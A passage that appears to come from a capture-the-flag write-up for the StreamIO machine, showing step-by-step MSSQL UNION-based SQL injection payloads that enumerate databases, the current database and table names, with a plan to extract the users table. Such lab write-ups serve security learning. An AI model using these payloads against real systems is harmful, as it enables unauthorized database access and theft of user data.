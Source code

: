 `Payload: abcd' UNION SELECT 1,name,3,4,5,6 from master..sysdatabases;-- -`
![](StreamIO_SQL4.png)
We have found the list of databases. Let's find out which one of this is currently selected database.

`Payload: abcd' UNION SELECT 1,(select DB_NAME()),3,4,5,6;-- -`
![](StreamIO_SQL5.png)
Our currently selected database is `STREAMIO`. Let's first dig into it and find the list of tables.

`Payload: abcd' UNION SELECT 1,name,3,4,5,6 from STREAMIO..sysobjects;-- -`
![](StreamIO_SQL6.png)
We got the list of tables along with their IDs. Out of this list the `PK_users` and `users` table seems important where we can find user information. Let's dig into it using table ID. The reason I pull out ID is because it is useful when pulling out data from the table using ID.

